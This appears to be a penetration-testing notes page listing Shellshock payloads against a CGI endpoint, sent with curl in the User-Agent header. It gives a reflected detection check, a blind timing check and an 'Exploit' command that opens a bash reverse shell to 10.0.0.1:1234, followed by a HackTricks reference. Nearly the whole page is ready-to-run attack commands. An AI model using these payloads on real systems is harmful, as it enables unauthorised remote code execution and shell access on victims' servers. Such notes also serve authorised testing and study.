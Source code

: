 # Payloads

## Reflected

```
$ curl -fs -H "user-agent: () { :; }; echo; echo 'VULNERABLE'" http://<IP>/cgi-bin/vulnerable | grep VULNERABLE
```

## Blind

```
$ curl -fs -H "user-agent: () { :; }; /bin/bash -c 'sleep 5'" http://10.0.0.3/cgi-bin/vulnerable
```

## Exploit

```
$ curl -fs -H "user-agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.1/1234 0>&1" http://10.0.0.3/cgi-bin/vulnerable
```

---
## References

### Hacktricks

- [Hacktricks: CGI](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/cgi.html)